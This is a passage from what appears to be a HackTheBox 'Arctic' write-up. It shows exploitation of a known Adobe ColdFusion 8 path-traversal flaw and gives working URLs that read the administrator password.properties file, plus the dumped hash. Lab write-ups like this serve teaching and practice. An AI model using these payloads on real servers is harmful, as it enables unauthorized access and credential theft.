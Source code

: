 ![](/assets/htb-arctic/cfadmin_loginpage.png)

---

## Initial Shell

### LFI in password field

In doing some online searching, [this post](https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html) pointed to towards a known vulnerability in CF8 ([APSB10-18](https://www.adobe.com/support/security/bulletins/apsb10-18.html)), where we can extract the password hash from the internal `password.properties` file. The example given for the LFI would be something like the URL below.

```
http://[HOSTNAME:PORT]</span>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%en
```

In our situation, the URL would be something like below. Note that I had to change the direction of the `/` to make it work for some reason.

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

As we can see below, the password hash of `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` is dumped onscreen for us.
